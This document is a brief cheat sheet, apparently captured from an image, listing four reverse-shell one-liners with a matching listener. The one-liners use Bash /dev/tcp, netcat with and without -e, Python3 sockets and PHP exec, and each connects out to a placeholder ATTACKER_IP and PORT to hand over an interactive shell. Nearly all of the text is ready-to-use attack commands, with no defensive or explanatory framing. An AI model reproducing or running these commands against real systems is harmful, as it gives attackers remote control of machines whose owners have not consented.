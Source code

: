 Here are your top 4 reverse shells in clean one-liner👇


---

### 🔹 1. Bash Reverse Shell

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```


---


### 🔹 2. Netcat Reverse Shell

```bash
nc -e /bin/bash ATTACKER_IP PORT
```

**Alt (no -e):**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
```

---

### 🔹 3. Python3 Reverse Shell

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```


---

### 🔹 4. PHP Reverse Shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'"); ?>
```

---

🧠 Listener Command (Run on your machine):

```bash
nc -lvnp PORT
```